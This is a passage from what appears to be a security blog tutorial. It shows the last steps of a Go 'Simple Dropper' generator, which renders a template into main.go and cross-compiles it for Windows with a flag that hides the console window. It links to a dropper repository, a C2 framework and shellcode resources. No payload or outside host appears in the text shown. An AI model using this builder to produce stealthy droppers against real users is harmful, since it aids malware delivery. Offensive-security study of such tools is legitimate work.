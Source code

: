 Update `main.go`  to use template to replace the variable 

``` go
	...
	// tmpl will register our main.tmpl file
	tmpl, err := template.New("main.tmpl").ParseFiles("./template/main.tmpl")
	if err != nil {
		panic(err)
	}
	// After modified the template file, we put code into template/main.go
	f, err := os.Create("./template/main.go")
	if err != nil {
		panic(err)
	}
	defer f.Close()
	// Change the main.go with the input stored in out opt struct
	if err := tmpl.Execute(f, opt); err != nil {
		panic(err)
	}
}
```

### Compile

To compile the code we use this in our command line

- `-trimpath`: get rid of some code in our generated executable
- `-ldflags -H=windowsgui`: hide pop up cmd window

```
GOOS=windows GOARCH=amd64 go build -trimpath -ldflags -H=windowsgui -o golang.exe
template/main.go
```

We need to convert this into golang using `os/exec` library, append these after your code, it should explain themselves

``` go
cmd := exec.Command("go", "build", "-trimpath", "-ldflags", "-H=windowsgui", "-o", opt.Save,
	"template/main.go")
cmd.Env = append(cmd.Environ(), "GOOS=windows", "GOARCH=amd64")
_, err = cmd.Output()
if err != nil {
	log.Fatal(err)
}
```

## [Outcome](https://github.com/3santree/Simple-Dropper.git)

Here's a stupid video showcasing what we have done in this blog, enjoy!

{{< video src="demo.mp4" >}}

> Reference:
> 
> 	https://sliver.sh/
> 
> https://github.com/Ne0nd0g/go-shellcode
> 
> https://dominicbreuker.com/